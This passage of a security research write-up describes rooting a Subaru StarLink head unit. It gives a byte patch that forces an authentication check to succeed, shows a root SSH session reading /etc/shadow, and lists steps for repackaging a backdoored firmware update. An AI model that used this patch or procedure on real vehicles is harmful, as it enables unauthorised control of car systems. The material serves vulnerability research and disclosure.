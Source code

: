R0 is our return value in ARM, and will contain the value of authenticated on subroutine exit. The write to R0 is:

```
.text:08052822 28 46                       MOV             R0, R5
```

Change this to `return authenticated = 1;`, which is going to be this in ASM:

```
.text:08052822 01 20                       MOVS            R0, #1
```

Thus, `28 46` -> `01 20`. Not the best backdoor possible, but it works.

```console
$ ssh root@192.168.0.1

****************************** SUBARU *******************************
Warning - You are knowingly accessing a secured system. That means
you are liable for any mischeif you do.
*********************************************************************

root@192.168.0.1's password:
# uname -a
QNX localhost 6.6.0 2016/09/07-09:25:33CDT i.MX6S_Subaru_Gen3_ED2_Board armle
# cat /etc/shadow
root:@S@aaaaaa@56c26c380d39ce15:1042473811:0:0
logger:@S@bbbbbb@607cb4704d35c71b:1420070987:0:0
certifier:@S@cccccc@e0a3f6794d650876:1420137227:0:0
# pidin -F "%n %U %V %W %X %Y %Z" | grep sh
usr/sbin/sshd           0          0          0          0          0          0
usr/sbin/sshd           0          0          0          0          0          0
bin/sh           0          0          0          0          0          0
```

## Putting it All Together

To root any 2017+ Subaru StarLink head unit, an attacker needs the following to generate valid update images:

1. A Subaru head unit with serial and USB port access.
2. The encryption keys for the update files.
3. An official update. These seem to be available for most platforms in many different ways. Without the official update, the ISO signature check will fail and the install will not continue to the stage where the QNXCNDFS files are written.
4. Physical access to the vehicles USB ports.

Technically, the head unit isn't needed, but to replace it you'd need code to generate QNXCNDFS images from QNX6 filesystem images.

After we have those pieces:

1. Use the serial and USB ports to gain local code execution on the system.
2. Decondense an official software update QNXCNDFS image.
3. Use the QNX Platform VM Image to modify the QNX6 filesystem. Inject some form of backdoor — sshd in this case.
4. Re-package the update file via cndfs.
5. Replace the modified QNXCNDFS file in the official system update.
6. Install.
